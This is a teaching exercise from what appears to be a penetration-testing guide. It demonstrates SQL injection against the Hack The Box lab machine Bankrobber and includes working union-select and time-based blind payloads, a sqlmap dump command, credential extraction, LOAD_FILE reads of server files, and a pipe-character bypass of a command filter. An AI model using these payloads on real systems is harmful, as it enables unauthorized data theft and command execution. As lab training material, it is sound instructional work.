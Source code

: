 # Exercise: Using SQL injection on the Bankrobber box

In order to try out SQL injection, we will go back to the Hack The Box machine, Bankrobber. The XSS exploitation will gae us credentials for the admin user and with those, we can access the administration functionality of the site where you discover a user's search function that is SQL injectable \(Figure 3-1\).

![Search functionality available after logging in as admin on Bankrobber](../.gitbook/assets/2%20%286%29.png)

You know that it is SQL injectable through the following process: Simple numbers like 1 and 2 in the search query return users with those numbers as ids. Putting a single quote after the number results in an error that is returned saying that “There is a problem with your SQL syntax”. Adding the MySQL comment text 1'-- - into the search field then returns the user again.

Catching the entire search request in Burp \(turn on the Burp proxy option in FoxyProxy and click search to intercept the request in the Proxy tab, then send the request to the Repeater tab in Burp using CTL-R\) allows us to play with the SQL and determine that it is “union select” injectable. To determine the number of columns that the original query is returning, we can use the following injection and sending it via Burp repeater:

```sql
term=1'+order+by+1--+-
```

This returns one user from the request. Incrementing the order by clause to 4 returns an error “There is a problem with your SQL syntax” telling us that the number of columns in the original query was 3. This means you can now carry out a union select with the query string:

```sql
term=1'+union+select+'Field1','Field2',3--+-
```

This returns the output

```markup
HTTP/1.1 200 OK
Date: Thu, 01 Oct 2020 04:53:15 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Content-Length: 180
Connection: close
Content-Type: text/html; charset=UTF-8
<table width='90%'><tr><th>ID</th><th>User</th></tr>
 <tr>
 <td>1</td>
 <td>admin</td>
 </tr>
 <tr>
 <td>Field1</td>
 <td>Field2</td>
 </tr>
 </table>
```

Knowing that this is a union select injectable field and that the database is MySQL, you can dump the default database using the sqlmap command:

`sqlmap -r search.req --batch --dbms MySQL --technique U -p term --dump`

Without the parameters –dbms, --technique and -p sqlmap will determine these itself, but it is faster to provide them if you already know the answer.

sqlmap can carry out blind attacks by using timing techniques. These work by introducing a delay in the response if the answer to a query is true. An example of this given by OWASP for MySQL uses the BENCHMARK\(50000000,ENCODE\('MSG', 'by 5 seconds'\)\) statement to introduce an approximately 5 second pause. So the SQL statement

```sql
1' UNION SELECT IF(SUBSTRING(user_password,1,1) = CHAR(50),
BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) 
FROM users WHERE user_id = 1
```

Will test if the first character in the password is ‘2’ \(assuming the password is in clear text\).

Whilst sqlmap can save time in obtaining information from SQL injection, it is always useful to know how to get the information manually. For example, in Bankrobber, you can list the databases in MariaDB with the command:

```sql
term=1'+union+select+'Field1',(SELECT group_concat(schema_name) 
FROM information_schema.schemata),3--+-
```

The response will include the databases

`bankrobber,information_schema,mysql,performance_schema,phpmyadmin,test`

The site, PayloadsAllTheThings has a SQL Injection Cheat Sheet that lists other commands for exploring databases.

We can list the tables in the database bankrobber with the following query:

```sql
term=1' union select 1,table_name,3 from INFORMATION_SCHEMA.TABLES 
where table_schema=database()-- -
```

This returns the tables: admin, balance, hold and users. We can list the columns in the users table using the command:

```sql
term=1' union select 1,group_concat(0x7c,column_name,0x7c),3 
from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```

This returns the column names:

`|id|,|username|,|password|,|USER|,|CURRENT_CONNECTIONS|,|TOTAL_CONNECTIONS|`

Finally, we could list the usernames and passwords for the users:

```sql
term=1' union select 1,group_concat(username,0x3a,password),3 from users-- -
```

Which returns:

`admin:Hopelessromantic,gio:gio`

Nothing particularly useful. One function that you can use in SQL is the LOAD\_FILE function which will allow us to include a local file into the response. We can try it with a well known Windows file c:\Windows\win.ini

```sql
term=1' union select 1,LOAD_FILE('c:\\Windows\\win.ini'),3-- -
```

And sure enough, this returns the contents of the file:

```sql
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If we enumerate the web directories with Gobuster we find for the root directory:

```bash
┌─[rin@parrot]─[~/boxes/Bankrobber]
└──╼ $gobuster dir -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -u http://bankrobber.htb
<SNIP>
/index.php (Status: 302)
/img (Status: 301)
/login.php (Status: 302)
/register.php (Status: 200)
/user (Status: 301)
/admin (Status: 301)
/link.php (Status: 200)
/css (Status: 301)
/Index.php (Status: 302)
/Login.php (Status: 302)
/js (Status: 301)
/notes.txt (Status: 200)
/logout.php (Status: 302)
/licenses (Status: 403)
```

The file of particular interest is notes.txt which when we look at says:

```text
- Move all files from the default Xampp folder: TODO
- Encode comments for every IP address except localhost: Done
- Take a break..
```

The key bit of information is that the Xampp folder is in the default location. XAMPP is a product that packages up Apache, MariaDB, PHP and Perl to run web applications. MariaDB is compatible with MySQL and so is largely indistinguishable for our purposes.

Going back to the home page, there was another function called a We also know that the function called a Backdoorchecker that said it would allow the dir command but when you try it, you get an error message:

It's only allowed to access this function from localhost \(::1\).

This is due to the recent hack attempts on our server.

It would be worth looking at the code for this file which we can do using SQL injection

```sql
term=1' union select 1,LOAD_FILE('c:\\xampp\\htdocs\\admin\\backdoorchecker.php'),3-- -
```

This returns the code for backdoorchecker.php

```php
<?php
include('../link.php');
include('auth.php');
$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad = array('$(','&');
$good = "ls";
if(strtolower(substr(PHP_OS,0,3)) == "win"){
 $good = "dir";
}
if($username == "admin" && $password == "Hopelessromantic"){
if(isset($_POST['cmd'])){
 // FILTER ESCAPE CHARS
  foreach($bad as $char){
    if(strpos($_POST['cmd'],$char) !== false){
      die("You're not allowed to do that.");
    }
  }
 // CHECK IF THE FIRST 2 CHARS ARE LS
 if(substr($_POST['cmd'], 0,strlen($good)) != $good){
   die("It's only allowed to use the $good command");
 }
 if($_SERVER['REMOTE_ADDR'] == "::1"){
   system($_POST['cmd']);
 } else{
   echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
 }
 }
} else{
 echo "You are not allowed to use this function!";
}
?>
```

The key things about this code are that it checks that cookie has username with a value of "admin" and password with a value of "Hopelessromantic" u. It then checks that the command does not include '&' which would allow us to run a second command after the 'dir' command v. It checks that the command starts with 'dir' so that we can't substitute other commands instead w. It checks if the request came from the local machine x. Finally, it executes the command y. The flaw here is is that although it is checking for bad characters that could manipulate the command and run other arbitrary commands, it still allows us to use the '\|' character which works in the same way as the '&' after a command.

We can now run a command but we still need to do this using server-side request forgery using the XSS vulnerability as we did earlier in the chapter.

